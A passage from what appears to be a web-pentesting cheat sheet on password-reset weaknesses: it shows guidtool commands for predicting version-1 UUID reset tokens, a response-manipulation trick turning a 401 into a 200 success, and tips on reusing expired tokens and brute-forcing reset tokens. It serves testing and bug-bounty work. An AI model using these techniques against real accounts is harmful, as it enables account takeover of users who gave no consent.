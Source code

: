 ```http
guidtool -i 1b2d78d0-47cf-11ec-8d62-0ff591f2a37c
UUID version: 1
UUID time: 2021-11-17 17:52:18.141000
UUID timestamp: 138564643381410000
UUID node: 17547390002044
UUID MAC address: 0f:f5:91:f2:a3:7c
UUID clock sequence: 3426
```

If the used version to generate a reset password GUID is the version 1, it's possible to bruteforce GUIDS:

```http
guidtool 1b2d78d0-47cf-11ec-8d62-0ff591f2a37c -t '2021-11-17 18:03:17' -p 10000
a34aca00-47d0-11ec-8d62-0ff591f2a37c
a34af110-47d0-11ec-8d62-0ff591f2a37c
```

### References

* [https://www.intruder.io/research/in-guid-we-trust](https://www.intruder.io/research/in-guid-we-trust)

## Response manipulation: Replace Bad Response With Good One

Look for Request and Response like these

```php
HTTP/1.1 401 Unauthorized
(“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”)
```

Change Response

```php
HTTP/1.1 200 OK
(“message”:”success”,”statusCode:200,”errorDescription”:”Success”)
```

### Reference

* https://medium.com/@innocenthacker/how-i-found-the-most-critical-bug-in-live-bug-bounty-event-7a88b3aa97b3

### Using Expired Token <a href="#8-using-expired-token" id="8-using-expired-token"></a>

* Check if the expired token can be reused

### Brute Force Password Rest token <a href="#9-brute-force-password-rest-token" id="9-brute-force-password-rest-token"></a>

Try to bruteforce the reset token using Burpsuite
